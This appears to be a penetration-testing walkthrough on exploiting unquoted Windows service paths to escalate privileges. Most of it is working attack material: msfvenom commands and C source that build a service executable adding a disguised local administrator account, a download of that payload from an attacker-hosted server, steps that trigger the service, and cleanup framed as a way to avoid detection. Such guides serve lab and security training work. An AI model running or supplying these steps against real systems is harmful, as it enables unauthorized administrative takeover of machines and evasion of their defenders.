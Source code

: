 Unquoted Service Paths

### Overview
Unquoted service paths present an opportunity for privilege escalation on Windows systems. When a service executable's path contains spaces and is **not enclosed in quotes**, Windows may misinterpret the path when starting the service. By exploiting this, an attacker can place a malicious executable in a writable directory, matching part of the unquoted path, and execute it with the privileges of the service (often LocalSystem).

---

### Step 1: Identify Unquoted Service Paths
Start by running **WinRecon.ps1** to enumerate services for unquoted paths:

1. **Option 2**: Run Custom Recon - (Select which functions to enable).
2. **Option 17**: Check services for **unquoted paths**.

#### Example Output:

![image](https://github.com/user-attachments/assets/7c50a419-eb9d-4751-800f-80de50e5afcc)


In this example, `GammaService` has an unquoted service path, making it a candidate for exploitation.

---

### Step 2: Verify Permissions and Start/Stop the Service
Before exploitation, confirm that:
1. You have permissions to **start** and **stop** the service.
2. You have **write permissions** in one of the directories derived from the unquoted path.

```powershell
net start <ServiceName>
net start GammaService
```

---

### Step 3: Create the Malicious Executable
The goal is to create an executable file that matches part of the unquoted path. In this case, we'll name the file `Current.exe` and place it in `C:\Program Files\Enterprise Apps`.

+
    ### Option 1 msfvenom
    ```bash
    msfvenom -p windows/exec CMD="cmd.exe /c net user taskmgrsvc Password123! /add && net localgroup administrators taskmgrsvc /add" -f exe-service -o <FileName>.exe
    ```
    ```bash
    msfvenom -p windows/exec CMD="cmd.exe /c net user taskmgrsvc Password123! /add && net localgroup administrators taskmgrsvc /add" -f exe-service -o Current.exe
    ```

+
    ### Option 2 Manual Compile
    #### Malicious Executable Code
    We will use C code to create a new local administrative user:
    ```c
    #include <stdlib.h>

    int main() {
        system("net user taskmgrsvc Password123! /add");
        system("net localgroup administrators taskmgrsvc /add");
        return 0;
    } 
    ```

    #### Compile the Executable
    On your Kali machine, cross-compile the C code:

    ```bash
    x86_64-w64-mingw32-gcc adduser.c -o Current.exe
    ```

---

### Step 4: Transfer the Malicious Executable
Host the executable on your attacker machine and transfer it to the target directory:

1. Start a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. Download the executable on the target machine:
   ```powershell
   iwr -uri http://<attacker_ip>/Current.exe -OutFile 'C:\Program Files\Enterprise Apps\Current.exe'
   ```
3. Verify the file exists:
   ```powershell
   ls 'C:\Program Files\Enterprise Apps\Current.exe'
   ```

---

### Step 5: Trigger the Exploit
Start the vulnerable service to trigger the execution of the malicious file:

```powershell
Start-Service -Name GammaService
```

If the service is configured to run with **LocalSystem** privileges, your malicious `Current.exe` will execute with the same privileges.

---

### Step 6: Verify Exploitation
Check if the new user was created and added to the Administrators group:

1. Verify the new user:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output**:
```plaintext
User accounts for \TARGETSYSTEM
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the `taskmgrsvc` user was created and added to the Administrators group.

---

### Step 7: Cleanup
To avoid detection, clean up after exploitation:

1. Delete the malicious executable:
   ```powershell
   del 'C:\Program Files\Enterprise Apps\Current.exe'
   ```
2. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```
---

### References
- [HackTricks - Unquoted Service Paths](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/unquoted-service-paths)

---
